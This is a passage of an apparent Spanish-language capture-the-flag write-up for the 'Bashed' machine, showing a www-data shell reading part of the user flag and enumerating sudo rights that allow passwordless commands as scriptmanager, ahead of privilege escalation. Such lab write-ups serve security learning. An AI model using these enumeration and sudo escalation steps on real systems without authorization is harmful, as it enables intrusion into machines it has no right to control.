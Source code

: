 <p align="center">
<img src="/assets/images/bashed/06-page4.png"> 
</p>

## FLAG USER

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` 

```bash
www-data@bashed:/var/www/html/dev$ find / -name user.txt 2>/dev/null
/home/arrexel/user.txt
www-data@bashed:/var/www/html/dev$ head -c 10 /home/arrexel/user.txt; echo
5dda671ad3
```
## ESCALADA DE PRIVILEGIOS SCRIPTMANAGER

Necesitamos escalar privilegios para poder llegar a la flag `root`, así que vamos a enumerar permisos de sudo que tenemos actualmente.

```bash
www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Podemos identificar que podemos ejecutar cualquier tipo de comando sin contraseña como el usuario `scriptmanager`, por lo que vamos a ejecutar el comando `bash` para obtener una shell con permisos del usuario recién encontrado.
